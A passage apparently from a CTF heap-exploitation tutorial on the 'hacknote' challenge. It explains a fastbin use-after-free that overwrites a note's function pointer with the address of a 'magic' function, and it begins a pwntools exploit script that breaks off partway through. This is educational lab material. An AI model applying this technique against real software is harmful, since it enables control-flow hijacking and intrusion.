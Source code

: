 

So, according to what we learned in the heap implementation, it is clear that the note is a fastbin chunk (16 bytes in size). Our goal is to have the put field of a note as the function address of magic, then we have to find a way to make the put pointer of a note overwritten as a magic address. Since there is only one place in the program to assign a put. So we have to use the time to write real content to cover. The specific ideas adopted are as follows


- Apply note0, real content size is 16 (the size is different from the bin where the note size is located)
- Apply note1, real content size is 16 (the size is different from the bin where the note size is located)
- Release note0
- Release note1
- At this point, the fast bin chunk size of 16 is note1-&gt;note0
- Apply note2 and set the size of real content to 8, then according to the heap allocation rules
- note2 will actually allocate the memory block corresponding to note1.
- real content The corresponding chunk is actually note0.
- If we write the magic address to the chunk part of the note2 real content at this time, then since we don&#39;t have note0 NULL. When we try to output note0 again, the program will call the magic function.


### Using scripts


```python

#!/usr/bin/env python

# -*- coding: utf-8 -*-



from pwn import *



r = process('./hacknote')





def addnote(size, content):

    r.recvuntil(":")

    r.sendline("1")

    r.recvuntil(":")

    r.sendline(str(size))

    r.recvuntil(":")

    r.sendline(content)





def delnote(idx):

    r.recvuntil(":")

```